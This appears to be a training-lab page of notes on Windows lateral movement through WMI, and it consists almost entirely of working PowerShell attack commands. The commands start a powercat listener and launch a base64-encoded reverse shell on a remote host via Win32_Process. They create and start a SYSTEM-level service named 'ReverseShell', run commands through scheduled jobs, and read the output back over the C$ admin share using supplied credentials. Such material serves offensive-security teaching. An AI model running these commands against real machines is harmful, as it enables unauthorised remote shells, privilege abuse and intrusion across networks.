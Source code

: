 ## Hands On 7 - Lateral Movement, Reverse Shell

#### Get a reverse shell on WMI server using Win32_Process
Start the listner:

`powercat -l -v -p 4242 -t 1000`

Start the client up (Using Powershell reverse shell from PayloadOfAllThings)
```
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes((Get-Content '.\oneliner.txt'))
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList "powershell -e $base64string" -Credential $user3_creds -ComputerName Win7x64
```

#### Get a reverse shell on a WMI server using Win32_Service
Start the listner:

`powercat -l -v -p 4242 -t 1000`

Start the client up (Using Powershell reverse shell from PayloadOfAllThings)
```
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes((Get-Content '.\oneliner.txt'))
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false,"My Reverse Shell",$errorcontrol,$null,$null,"ReverseShell","C:\Windows\System32\cmd.exe /c powershell -e $base64string",$null,$servicetype ,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName Win7x64 -Credential $user3_creds
Get-WmiObject -class Win32_Service -Filter 'Name = "ReverseShell"' -ComputerName Win7x64 -Credential $user3_creds
Get-WmiObject -class Win32_Service -Filter 'Name = "ReverseShell"' -ComputerName Win7x64 -Credential $user3_creds | Invoke-WmiMethod -Name StartService
```

#### Retrieve output of Win32_Process by writing the output to a text file on a target box
```
$command = "cmd.exe /c ipconfig /all > C:\Windows\Temp\output.txt"
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes($command)
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList "powershell -e $base64string" -Credential $user3_creds -ComputerName Win7x64
```

Use the following to map a PowerShell drive to retrieve the contents of the commands
```
New-PSDrive -Name "PSDrive" -PSProvider "FileSystem" -Root "\\Win7x64\C$"  -Credential $user3_creds
Get-ChildItem -Path PSDrive:
Get-Content -Path PSDrive:\Windows\temp\output.txt
```

Remove the drive when finished

`Remove-PSDrive -Name PSDrive`

#### Use Win32_ScheduledJob for command execution on any computers
`Invoke-WmiMethod -Class Win32_Scheduledjob -Name Create -ArgumentList "cmd.exe /c dir c:\users > C:\Windows\Temp\output.txt",$null,$null,$false,$false,********152300.000000-300 -ComputerName Win7x64 -Credential $user3_creds`
